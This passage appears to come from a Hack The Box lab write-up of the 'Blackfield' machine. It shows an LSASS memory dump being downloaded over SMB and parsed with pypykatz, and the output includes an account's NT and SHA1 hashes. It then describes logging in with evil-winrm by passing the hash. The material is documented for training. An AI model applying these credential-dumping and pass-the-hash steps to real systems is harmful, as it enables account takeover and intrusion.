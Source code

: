 We can see multiple zip files, the interesting one is lsass.zip, this is because lsass stores credentials in Windows. Let's get the file and unzip it.

```bash
smb: \memory_analysis\> get lsass.zip
getting file \memory_analysis\lsass.zip of size 41936098 as lsass.zip (3543.9 KiloBytes/sec) (average 3543.9 KiloBytes/sec)
smb: \memory_analysis\> exit
finlay@kali:~/htb/blackfield$ unzip lsass.zip
```

## Dumping password from lsass

Now we can use [pypykatz](https://github.com/skelsec/pypykatz) to dump credentials from the file. You could also do this using mimikatz on a Windows machine, but I wanted to do it all on Linux.

```bash
finlay@kali:~/htb/blackfield$ pypykatz lsa minidump lsass.DMP 
INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
...
```

Now we can use the NT hash to login to the box with evil-winrm using pass the hash.

![user_shell](images/user_shell.png)

And we find the user flag in C:/Users/svc_backup/Desktop

## User.txt

![user_flag](images/user_flag.png)
